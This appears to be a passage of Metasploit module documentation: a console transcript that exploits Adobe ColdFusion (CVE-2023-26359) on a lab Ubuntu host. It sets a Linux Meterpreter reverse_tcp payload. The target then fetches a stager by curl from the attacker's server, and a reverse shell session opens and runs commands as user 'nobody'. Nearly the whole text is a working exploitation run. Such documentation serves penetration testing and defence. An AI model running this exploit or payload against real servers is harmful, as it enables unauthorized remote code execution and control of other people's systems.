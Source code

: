 ### Linux Dropper (Adobe ColdFusion 2021 Update 5 on Ubuntu 22.04)
```
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26359) > set target 4
target => 4
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26359) > set PAYLOAD linux/x64/meterpreter/reverse_tcp
PAYLOAD => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26359) > set RHOST 172.23.0.98
RHOST => 172.23.0.98
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26359) > check
[*] 172.23.0.98:8500 - The service is running, but could not be validated. ColdFusion detected but version number is unknown.
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26359) > exploit

[*] Started reverse TCP handler on 172.23.9.70:4444 
[*] Using URL: http://172.23.9.70:8080/lzD4G6tt1
[*] Client 172.23.0.98 (curl/7.81.0) requested /lzD4G6tt1
[*] Sending payload to 172.23.0.98 (curl/7.81.0)
[*] Sending stage (3045348 bytes) to 172.23.0.98
[*] Command Stager progress - 100.00% done (113/113 bytes)
[*] Meterpreter session 2 opened (172.23.9.70:4444 -> 172.23.0.98:43168) at 2023-04-06 12:29:23 +0100
[*] Server stopped.

meterpreter > getuid
Server username: nobody
meterpreter > pwd
/opt/ColdFusion2021/cfusion/bin
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 172.23.0.98 - Meterpreter session 2 closed.  Reason: User exit
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26359) > 
```
